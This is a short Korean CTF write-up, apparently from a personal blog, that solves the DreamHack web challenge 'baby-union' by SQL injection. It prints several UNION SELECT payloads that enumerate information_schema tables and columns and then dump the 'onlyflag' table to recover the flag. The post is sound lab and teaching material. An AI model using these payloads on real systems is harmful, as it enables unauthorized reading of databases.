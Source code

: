 ```yaml
---
layout: single
title: "[DreamHack] baby-union"
categories: WARGAME
tag: [web, 워게임]
redirect_from:
  -  #/daily/first
---
```


## 문제

![]({{site.url}}/images/2024-05-16-web8-images/problem.png)

## Write up

먼저 flag를 알기 위해서 테이블을 조회했다.  
`' union SELECT table_catalog, table_name, table_type, create_time FROM information_schema.tables;--`

![]({{site.url}}/images/2024-05-16-web8-images/solve1.png)

해당 명령어를 입력하면 많은 테이블들을 확인할 수 있다.

![]({{site.url}}/images/2024-05-16-web8-images/solve2.png)

그 중 맨 밑을 보면 수상한 테이블을 확인할 수 있다.

![]({{site.url}}/images/2024-05-16-web8-images/solve3.png)

해당 테이블의 컬럼 값을 알기 위해서 컬럼값을 조회  
`' union SELECT column_name, null, null, null FROM information_schema.columns where table_name='onlyflag';--`

![]({{site.url}}/images/2024-05-16-web8-images/solve4.png)

`idx`, `sname`, `svalue`, `sflag`, `sclose` 컬럼이 있는 것을 확인 가능

`' union select idx, sname, svalue, sflag, sclose from onlyflag #` 을 입력하면 다음같은 결과를 얻을 수 있음.

![]({{site.url}}/images/2024-05-16-web8-images/solve5.png)

해당 내용을 바탕으로 다른 컬럼들도 조회하면 플래그를 얻을 수 있다.  
`' union select svalue, sflag, null, sclose from onlyflag #`

![]({{site.url}}/images/2024-05-16-web8-images/solve6.png)
